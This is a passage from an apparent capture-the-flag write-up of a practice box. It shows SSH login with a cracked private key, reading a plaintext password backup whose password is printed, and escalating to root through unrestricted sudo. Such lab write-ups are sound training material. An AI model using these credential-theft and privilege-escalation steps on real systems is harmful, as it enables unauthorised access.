 Cool, now that we have the passphrase we can SSH in as kay:

```text
┌──(ryan㉿kali)-[~/THM/Basic_Pentesting]
└─$ ssh -i id_rsa kay@10.10.10.20                            
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ whoami && hostname
kay
basic2
```

In Kay's home directory we find a password backup containing her password:

```text
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ sudo -l
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

We can then use this password to run `sudo -l` to list what she can run with elevated permissions, and suprisingly, she can run anything at all as sudo.

Lets use this to escalate to root:

```text
kay@basic2:~$ sudo su -
root@basic2:~# whoami
root
root@basic2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

From here we can grab the flag in the root directory:
